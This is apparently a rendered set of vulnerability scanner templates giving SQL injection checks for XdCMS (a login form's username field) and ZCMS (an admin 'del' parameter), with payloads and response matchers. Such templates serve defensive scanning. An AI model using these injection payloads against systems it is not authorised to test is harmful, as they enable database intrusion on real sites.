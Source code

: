 **Type - word**
- words
    1. {{md5({{num}})}}
- part - body

---
# XdCMS - SQL Injection
## Description
- XdCMS contains a SQL injection vulnerability. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - sqli,xdcms
## Requests
- Method - POST
- Method - POST
### URL
- {{BaseURL}}/index.php?m=member&f=login_save
  - username=dd' or extractvalue(0x0a,concat(0x0a,md5({{num}})))#&password=dd&submit=+%B5%C7+%C2%BC+

### Matchers

**Type - word**
- words
    1. Content-Type: text/html
- part - header

**Type - word**
- words
    1. {{md5({{num}})}}
- part - body

**Type - status**
- status
    1. 200

---
# ZCMS - SQL Injection
## Description
- ZCMS contains a SQL injection vulnerability. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - zcms,sqli
## Requests
- Method - GET
### URL
- {{BaseURL}}/admin/cms_channel.php?del=123456+AND+(SELECT+1+FROM(SELECT+COUNT(*)%2cCONCAT(0x7e%2cmd5({{num}})%2c0x7e%2cFLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.CHARACTER_SETS+GROUP+BY+x)a)--%2b'
### Matchers
